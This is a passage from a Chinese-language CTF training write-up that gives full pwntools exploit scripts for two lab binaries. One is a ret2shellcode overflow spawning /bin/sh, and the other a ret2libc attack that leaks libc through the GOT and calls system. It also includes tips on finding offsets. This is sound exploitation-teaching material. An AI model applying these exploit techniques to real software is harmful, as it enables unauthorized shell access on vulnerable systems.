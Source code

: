 ```python
lab3 [master●●] cat solve.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
context(os = "linux", arch = "i386")

io = process("./ret2sc")

shellcode = asm(shellcraft.execve("/bin/sh"))
io.sendlineafter(":", shellcode)

payload = flat(cyclic(32), 0x804a060)
io.sendlineafter(":", payload)

io.interactive()
io.close()
lab3 [master●●] 
```

需要注意的是，该程序中的 read 是通过 esp 寻址的，因此具体的 offset 可以通过调试查看

![](http://ww1.sinaimg.cn/large/006AWYXBly1fpcpljuki5j30g702wdfy.jpg)

也可以通过 peda 的 pattern\_offset/pattern\_search , pwntools 的 cyclic/cyclic -l 等工具来找 offset 



### lab4-ret2lib

ret2libc，并且程序中已经有了一个可以查看 got 表中值的函数 See\_something，直接 leak 出 libc 基址，通过 one\_gadget 或者 system("/bin/sh") 都可以 get shell，/bin/sh 可以使用 libc 中的字符串，可以通过 read 读入到内存中，也可以使用 binary 中的字符串

```python
lab4 [master●●] cat solve.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *

io = process("./ret2lib")
elf = ELF("./ret2lib")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

io.sendlineafter(" :", str(elf.got["puts"]))
io.recvuntil(" : ")
libcBase = int(io.recvuntil("\n", drop = True), 16) - libc.symbols["puts"]

success("libcBase -> {:#x}".format(libcBase))
#  oneGadget = libcBase + 0x3a9fc

#  payload = flat(cyclic(60), oneGadget)
payload = flat(cyclic(60), libcBase + libc.symbols["system"], 0xdeadbeef, next(elf.search("sh\x00")))
io.sendlineafter(" :", payload)

io.interactive()
io.close()
lab4 [master●●] 
```
